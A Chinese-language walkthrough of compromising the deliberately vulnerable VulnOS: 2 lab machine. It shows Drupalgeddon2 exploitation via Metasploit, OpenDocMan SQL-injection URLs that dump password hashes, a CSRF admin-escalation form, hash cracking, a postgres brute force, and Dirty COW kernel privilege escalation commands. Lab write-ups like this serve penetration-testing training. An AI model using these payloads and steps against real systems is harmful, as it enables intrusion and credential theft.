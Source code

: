 # VulnOS: 2

https://www.vulnhub.com/entry/vulnos-2,147/

difficulty: not know

Finish Date：2024-4-17

## IP

192.168.10.166

## Scan

Open Port -> 22,80,6667

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 f54dc8e78bc1b2119524fd0e4c3c3b3b (DSA)
|   2048 ff19337ac1eeb5d0dc6651daf06efc48 (RSA)
|   256 aed76fcced4a828be866a5117a115f86 (ECDSA)
|_  256 71bc6b7b5602a48ece1c8ea61e3a3794 (ED25519)
80/tcp   open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: VulnOSv2
|_http-server-header: Apache/2.4.7 (Ubuntu)
6667/tcp open  irc?
|_irc-info: Unable to open connection
```

先对根目录进行扫描，看是否有隐藏目录，没有发现信息。访问 web 80，页面上有一些信息，然后指示我们访问 http://192.168.10.166/jabc/ 进行测试。

whatweb http://192.168.10.166/jabc/?q=node/1 发现目标网站是 Drupal 7 搭建的。访问 http://192.168.10.166/jabc/robots.txt 发现了一些隐藏的关键目录。

登陆页面为：http://192.168.10.166/jabc/?q=user/login/

在 msf 中找到了相关漏洞利用的 exploit：unix/webapp/drupal_drupalgeddon2 进行相关参数设置后 run，得到了 meterpreter，继续进行测试提升到 root 权限。

从 meterpreter 进入到 shell 后，先升级下 tty : python -c 'import pty; pty.spawn("/bin/bash")'

上传 linpeas 进行系统枚举：发现内核版本为 3.13.0-24-generic 可能存在内核漏洞。

找到了 Drupal 连接数据库的配置文件：/var/www/html/jabc/sites/default/dbconfig.php 内容为：

```
$databases['default']['default'] = array(
	'driver' => 'mysql',
	'database' => 'drupal7',
	'username' => 'drupal7',
	'password' => 'toor',
	'host' => 'localhost',
	'port' => '',
	'prefix' => ''
);
```

进入到数据库后，查看 user 表中有一条数据记录，用户名：webmin 密码：`$S$DPc41p2JwLXR6vgPCi.jC7WnRMkw3Zge3pVoJFnOn6gfMfsOr/Ug`，尝试破解这个哈希值 john --single hash ，得到明文密码：webmin1980。

看到 /home 目录下有两个用户：vulnosadmin 和 webmin，上面得到的明文密码很有可能就是 webmin 的密码，尝试进行登陆，果然登陆成功。

经过一些列信息枚举，没有发下可以直接利用的信息，只好尝试内核漏洞进行提权，根据筛选出来的信息，使用了脏牛提权：https://www.exploit-db.com/download/40847

经过编译 cpp 代码后，执行获得了 root 权限：

```
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
./dcow -s

root@VulnOSv2:~# cat flag.txt
Hello and welcome.
You successfully compromised the company "JABC" and the server completely !!
Congratulations !!!
Hope you enjoyed it.
```

## 拓展方法

在 http://192.168.10.166/jabc/?q=node/7 页面中，查看源代码，发现了另外一个隐藏的目录 /jabcd0cs/ ：

```
Documentation
Dear customer,
For security reasons, this section is hidden.
For a detailed view and documentation of our products, please visit our documentation platform at /jabcd0cs/ on the server. Just login with guest/guest
Thank you.
```

访问这个目录 /jabcd0cs/ 后，发现了另外一个系统 OpenDocMan v1.2.7，对此系统进行搜索，看能否找到对应的漏洞：

```
OpenDocMan 1.2.7 - Multiple Vulnerabilities 32075.txt

1) SQL Injection in OpenDocMan: CVE-2014-1945

http://192.168.10.166/jabcd0cs/ajax_udf.php?q=1&add_value=odm_user%20UNION%20SELECT%201,version%28%29,3,4,5,6,7,8,9

2) Improper Access Control in OpenDocMan: CVE-2014-1946

<form action="http://[host]/signup.php" method="post" name="main">
<input type="hidden" name="updateuser" value="1">
<input type="hidden" name="admin" value="1">
<input type="hidden" name="id" value="[USER_ID]">
<input type="submit" name="login" value="Run">
</form>
```

根据 SQL 注入漏洞，尝试获得数据库中的用户名：

```
http://192.168.10.166/jabcd0cs/ajax_udf.php?q=-11&add_value=odm_user%20UNION%20SELECT%201,username,3,4,5,6,7,8,9%20from%20odm_user

http://192.168.10.166/jabcd0cs/ajax_udf.php?q=-11&add_value=odm_user%20UNION%20SELECT%201,CONCAT_WS(username,',',password),3,4,5,6,7,8,9%20from%20odm_user
```

得到了对应账户和哈希密码：

```
webmin:b78aae356709f8c31118ea613980954b   <-- webmin1980
guest:084e0343a0486ff05530df6c705c8bb4    <-- guest
```

对应的找到了密码的明文，尝试是否能通过 ssh 登陆系统，结果发现 webmin:webmin1980 能够登陆系统，后续的提权方式跟上面一样。

进入系统后发现本地监听了 127.0.0.1:5432 是 postgres 数据库，不知道这里面有没有信息，能不能得到用户名和密码，但是只能从本地进行连接，需要将端口开放给我们的 kali，可以利用 ssh 进行本地端口转发：

```
ssh webmin@192.168.10.166 -L 5432:localhost:5432
```

使用了 msf 的 scanner/postgres/postgres_login 进行用户名和密码爆破，最后找到了登陆凭证：postgres:postgres，继续获得数据库中的信息：

```
pg_dumpall -h 127.0.0.1 -p 5432 -U postgres -W > pg.sql
```

得到了新的用户名和密码：vulnosadmin:c4nuh4ckm3tw1c3，继续尝试用这个新的用户凭据去 ssh 登陆系统，发现目录下有一个 r00t.blend 文件，让我们用 blend 在线浏览打开它，在里面能看到 root 用户的密码：ab12fg//drg
